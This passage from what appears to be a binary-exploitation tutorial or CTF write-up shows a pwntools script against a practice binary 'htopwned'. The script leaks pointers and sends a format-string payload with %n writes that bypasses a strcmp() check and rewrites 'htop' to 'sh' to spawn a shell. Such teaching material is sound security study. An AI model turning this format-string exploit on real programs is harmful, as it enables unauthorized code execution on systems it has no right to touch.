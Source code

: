 And you should be seeing this output from it:

![Screenshot](/assets/pwn2-14.png)

Now it is the last step for a successful exploitation: Switching "htop" to "sh" so we are able to get a shell!

# Corrupting the last memory spot

We need to corrupt where "htop" string resides. If it was static declared string, it would not be possible, due to being a Read-Only memory address space. But as we observed from before, it is heap memory, so it globally writeable memory, so it is possible to corrupt as well!

It is exactly the same methodology as we have done to bypass strcmp() call, so I will not replay everything I told in the last topic, instead, I will show how the code changes have gone to achieve this objective:

```python
#!/usr/bin/env python

from pwn import *
from time import sleep


def get_pointer_addr(process):
    return int(process.recvuntil("\n").strip("\n"), 16)

p = process("./htopwned")
sleep(2)

# This retrieves choice variable pointer and stores it integer value
p.recvuntil("choice => ")
choice_addr = get_pointer_addr(p)

# This retrieves input variable pointer and stores it integer value
p.recvuntil("input  => ")
input_addr = get_pointer_addr(p)

print("Choice variable is in memory address 0x%x" % choice_addr)
print("Input variable is in memory address 0x%x" % input_addr)

# Corrupt both memory addresses now
# Bypassing strcmp() and changing "htop" to "sh"
payload = p32(choice_addr) + "AAAA" + p32(input_addr) + "%x%x%1157630565x%n%24058x%n"

print(hexdump(payload))
p.recv()
p.sendline(payload)
sleep(2)
p.recv()
p.interactive()
```